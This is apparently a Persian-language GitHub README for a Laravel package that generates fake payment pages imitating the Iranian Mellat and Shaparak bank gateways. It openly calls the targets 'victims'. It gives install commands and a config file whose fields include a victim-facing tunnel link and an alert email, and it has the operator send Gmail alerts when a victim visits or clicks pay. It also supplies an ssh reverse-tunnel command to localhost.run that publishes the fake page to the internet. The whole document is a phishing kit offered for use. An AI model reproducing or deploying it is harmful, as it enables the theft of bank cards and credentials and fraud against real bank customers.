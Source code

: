 
# فیک پیج ساز بانک های ایران

نسخه اولیه فیک پیج ساز بانک های ایران(درگاه های شاپرک و ملت) 

ساخته شده توسط یکی از بچه های کلاس لاراول استاد علی رحمانیان

جهت ارتباط با استاد رحمانیان به سایت زیر مراجعه  کنید

http://alirahmanian.com

https://www.instagram.com/ali.rahmanian.s.a

## امکانات

- پشتیبانی از دو درگاه پرداخت ملت و شاپرک
- ارسال ایمیل هنگام ورود قربانی و کلیک قربانی بر روی دکمه پرداخت
- امکان ویرایش اطلاعات پذیرنده درگاه پرداخت
- بدون نیاز به هاست 



## نحوه استفاده از پکیج

جهت استفاده از طریق کامپوزر اقدام به دانلود کنید

```bash
  composer require laravelclass/bank-fake-page
```
بعد از تمامی کلاس ها رجیستر کنید providers در قسمت app.php بروید و در فایل config به مسیر
```bash
  \LaravelClass\BankFakePage\Providers\FakePageProvider::class
```


با دستور زیر پکیج اقدام به پابلیش فایل تنظیمات میکند و سرور را ران میکند



```bash
  php artisan fake-page:rocket
```

در مسیر config یک فایل به نام fakePage.php قرار دارد.میتوانید تنظیمات خود را اعمال کنید


## fakePage.php محتوای فایل

```php
<?php
return [
    'providerName'=> 'نام تستی پذیرنده',
    'providerNumber'=>'شماره پذیرنده',
    'terminalNumber' => 'شماره ترمینال',
    'websiteUrl' => 'ادرس وبسایت پذیرنده',
    'price' => 'قیمت محصول',
    'fakePage' => 'نام درگاه قابل نمایش' ==> mellat or shaparak,
    'tunnelUrl' => 'لینک پورت فوروارد قربانی',
    'emailForAlert' => 'ایمیل جهت طلاع وضعیت قربانی',
    'MAIL_HOST' => 'smtp.googlemail.com',
    'MAIL_PORT' => 465,
    'MAIL_USERNAME' => 'یک ایمیل برای فرستادن اطلاعات',
    'MAIL_PASSWORD' => 'پسورد ایمیل',
    'MAIL_ENCRYPTION' => 'ssl',
    'MAIL_FROM_ADDRESS' => 'laravelclass@laravel.com',
    'MAIL_FROM_NAME' => 'LaravelClass'
];

```


## نحوه گرفتن لینک

شما میتوانید با استفاده از دستور زیر یک لینک دریافت کنید که به لوکال هاست شما فوروارد میکند.توجه کنید که این لینک امن بوده و خطری شما را تهدید نمیکند

```bash
  ssh -R 80:127.0.0.1:8000 nokey@localhost.run
```

پس از زدن این دستور اگر برای اولین بار زده باشید از شما تاییدیه انتقال کلید را میخواهد که تایید کنید.پس از آن یک لینک در اختیار شما قرار میگیرد که باید ابتدا در 
  در مسیر فایل کانفینگ پروژه بروید و معرفی کنید. fakePage.php فایل


## نمونه دستور خروجی و نمایش لینک

```
34c2ea123974dd48665.lhrtunnel.link tunneled with tls termination, https://34c2ea123974dd48665.lhrtunnel.link

```
https://34c2ea123974dd48665.lhrtunnel.link در نمونه خروجی بالا لینک برای معرفی به تنظیمات و قربانی

## نحوه تنظیم ایمیل فرستنده

Go to Youre Gmail Account And Go to Manage Youre Google Account

Click on Security Tab on The Left

Find Less Secure App Access and Turn It On



